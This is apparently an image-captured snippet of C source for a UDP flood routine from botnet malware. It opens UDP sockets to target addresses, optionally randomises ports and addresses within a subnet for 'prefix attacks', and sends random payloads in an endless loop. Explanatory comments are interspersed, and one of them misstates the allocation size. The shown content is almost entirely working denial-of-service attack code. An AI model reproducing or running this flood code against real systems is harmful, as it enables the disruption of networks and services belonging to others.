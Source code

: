 ```
    if (sport == 0xffff)
    {
        sport = rand_next();
    } else {
        sport = htons(sport);
    }

    // create packets
    for (i = 0; i < targs_len; i++)
    {
        struct iphdr *iph;
        struct udphdr *udph;
        char *data;

        // Allocate 65535 × 4 bytes of space for each packet.
        pkts[i] = calloc(65535, sizeof (char));

        // If no port is specified, randomly choose a destination port.
        if (dport == 0xffff)
            targs[i].sock_addr.sin_port = rand_next();
        else
            targs[i].sock_addr.sin_port = htons(dport);

        if ((fds[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) == -1)
        {
            return;
        }

        bind_addr.sin_family = AF_INET;
        bind_addr.sin_port = sport;
        bind_addr.sin_addr.s_addr = 0;

        bind(fds[i], (struct sockaddr *)&bind_addr, sizeof (struct sockaddr_in));

        // For prefix attacks
        if (targs[i].netmask < 32)
            targs[i].sock_addr.sin_addr.s_addr = htonl(ntohl(targs[i].addr) + (((uint32_t)rand_next()) >> targs[i].netmask));

        // Different from the "connect" function in TCP, "connect" in UDP does not actually establish a connection, but rather speeds up the sending process.
        connect(fds[i], (struct sockaddr *)&targs[i].sock_addr, sizeof (struct sockaddr_in));
    }
    
    // After setting up all the packets, send the packet.
    while (TRUE)
    {
        for (i = 0; i < targs_len; i++)
        {
            char *data = pkts[i];

            // Randomize packet content?
            if (data_rand)
                // If no length is specified, the default length of the data is 512
                rand_str(data, data_len);

            send(fds[i], data, data_len, MSG_NOSIGNAL);
        }
    }
}
```
